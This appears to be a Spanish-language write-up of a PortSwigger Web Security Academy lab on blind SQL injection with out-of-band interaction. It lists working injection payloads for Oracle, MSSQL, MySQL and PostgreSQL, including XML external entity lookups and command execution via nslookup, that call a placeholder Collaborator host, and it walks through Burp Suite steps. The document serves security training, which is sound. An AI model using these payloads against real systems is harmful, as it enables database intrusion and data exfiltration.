








# Blind SQL injection with time delays and information retrieval

## 📌 Información del laboratorio

| Campo | Detalle |
|---|---|
| **Laboratorio** | Blind SQL injection with out-of-band interaction |
| **Categoría** | SQL Injection (OOB out-of-band) |
| **Técnica** | OOB Channel para extraer informacion de una consulta |
| **Motor de base de datos** | ORACLE DB |
| **Plataforma** | PortSwigger Web Security Academy |

🔗 [Acceder al laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

---

## 🎯 Objetivo

Lograr conexion de base de datos con una resolucion de DNS controlada por el atacante.

```sql
SELECT * FROM trackId WHERE id = '$cookieDeRastreo'
```

Puedo usar ese punto de entrada para inyectar funciones de resolucion DNS según el motor de base de datos.

---

## 🔍 Detectando la vulnerabilidad

Revisando el [Cheat Sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), para esta tecnica, cada motor tiene su propia funcion para lograr el ataque

### Oracle

**Payload: Inyeccion XML:**

```sql 
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

**Payload: Resolucion de nombres nativos:**

```sql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```
--------------------------------------------------------------------

### MSSQL

**Payload: Enumeracion de Directorios RED (Abuso de UNC):**

```sql
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```
--------------------------------------------------------------------

### MySQL

#### Windows:

**Payload: Lectura de archivos:**

```sql
SELECT LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a');
```

**Payload: Escritura de archivos:**

```sql
SELECT 'test' INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\\a';
```

#### Linux:
**Payload: Ejecución de comandos (Requiere extensión `udf_sys` instalada):**

```sql
SELECT sys_eval('nslookup BURP-COLLABORATOR-SUBDOMAIN');
```

---

-- PostgreSQL

**Payload: Ejecucion de Comandos del Sistema:**

```sql
COPY (SELECT '') TO PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

---

### Paso a paso BurpSuite:

Abro Burpsuite, activo el proxy, capturo la peticion, la envio al repeater (ctrl+r) voy al plugin de Collaborator inicializamos



 Copio el dominio que me proporciona la herramienta

 

Ingreso la query y la codifico en URL Encode:

Selecciono todo el valor de `TrackingId` y hago lo siguiente:
> click derecho -> Convert Selection -> URL -> URL Encode Key Characters

O mas rapido, selecciono todo el valor de `TrackingId` y presiono la combinacion `ctrl+u`

---

```html
## Pruebas con cada motor

### MSSQL

<div style="border:1px solid gray; padding:10px; border-radius:8px;">

<h4>Envío de la petición</h4>



<h4>Validación en Collaborator presionando en <code>Poll now</code></h4>



</div>

---

### MySQL

<div style="border:1px solid gray; padding:10px; border-radius:8px;">

<h4>Envío de la petición</h4>



<h4>Validación en Collaborator presionando en <code>Poll now</code></h4>


</div>

---

### PostgreSQL

<div style="border:1px solid gray; padding:10px; border-radius:8px;">

<h4>Envío de la petición</h4>



<h4>Validación en Collaborator presionando en <code>Poll now</code></h4>


</div>

---

### Oracle

<div style="border:1px solid gray; padding:10px; border-radius:8px;">

<h4>Envío de la petición</h4>



<h4>Validación en Collaborator presionando en <code>Poll now</code></h4>



</div>

---

> ✅ Se obtiene interacción en Burp Collaborator únicamente con el payload Oracle, confirmando vulnerabilidad a Out-of-Band SQL Injection mediante este motor.
```


## ✅ Resultado

Se logró obtener respuesta de resolucion DNS a través del parámetro `TrackingId`.

El proceso completo fue:

1. Se probaron payloads especificos para distintos motores de bases de datos con el objetivo de identificar cual estaba siendo utilizado por la aplicacion.
2. El payload correspondiente a Oracle genero interaccion con Burp Collaborator, permitiendo identificar correctamente el DBMS.
3. El payload utilizaba `EXTRACTVALUE` junto con una entidad XML externa `(DOCTYPE)` para forzar al servidor Oracle a realizar una consulta DNS hacia el dominio de Burp Collaborator.
4. Fue necesario aplicar URL Encode a caracteres especiales del XML para que el payload fuera interpretado correctamente dentro de la peticion HTTP.
5. Burp Collaborator recibio multiples consultas DNS provinientes del servidor vulnerable, confirmando:
    - Ejecucion del payload.
    - Interaccion OOB (out-of-band).
    - Posibilidad de exfiltrar informacion mediante canales externos.